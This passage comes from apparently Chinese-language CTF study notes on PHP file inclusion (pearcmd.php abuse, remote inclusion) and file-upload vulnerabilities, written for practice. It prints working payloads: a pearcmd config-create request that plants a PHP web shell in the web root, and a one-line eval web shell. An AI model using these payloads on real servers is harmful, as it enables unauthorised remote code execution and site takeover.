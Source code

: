 ```
threads = [threading.Thread(target=write),
       threading.Thread(target=read)]
for t in threads:
        t.start()
```

### pear文件包含

pear模块下有很多php文件，可以利用其中的某个php，分析发现`/usr/local/lib/php/PEAR/Command/Install.php`存在可利用点

`/usr/local/lib/php/pearcmd.php`存在可利用点

![image-20220909214644657](https://blog-1308152021.cos.ap-beijing.myqcloud.com/image/202209092146690.png)

argv注册功能开启了就可以使用这种姿势

可以通过配置文件写入一句话木马

```
?file=/usr/local/lib/php/pearcmd.php&aaaa+config-create+/var/www/html/<?=`$_POST[1]`;?>+1.php
```

其中aaa可以将数据弹出argv，三个➕，四个元素

### 远程文件包含

这里是结合了上边的日志包含，或者可以理解成远程日志包含

这里由于题目过滤了符号. 所以我们可以用http://www.ab173.com/net/ip2int.php 将IP转换成纯数字

![image-20220909220415037](https://blog-1308152021.cos.ap-beijing.myqcloud.com/image/202209092204124.png)

# 四.文件上传

### 0x1 何为文件上传：

- 文件上传就是通过流的方式将文件写到服务器上
- 文件上传必须以POST提交表单
- 表单中需要 `<input type="file" name="upload">`

一句话木马(具体内容写在[这篇文章](https://scofield.top/web/%E6%8A%80%E8%83%BD%E5%82%A8%E5%A4%87/%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC/))：

```
<?php eval($_POST['a']) ?>
```

其中eval就是执行命令的函数，**$_POST[‘a’]**就是接收的数据。eval函数把接收的数据当作PHP代码来执行。这样我们就能够让插入了一句话木马的网站执行我们传递过去的任意PHP语句。

### 0x2 文件上传漏洞类型

<img src="https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20221108164430450.png" alt="image-20221108164430450" style="zoom: 67%;" />

### 0x3 实例

去bugku、ctfhub刷题就好了，这里就不赘述了
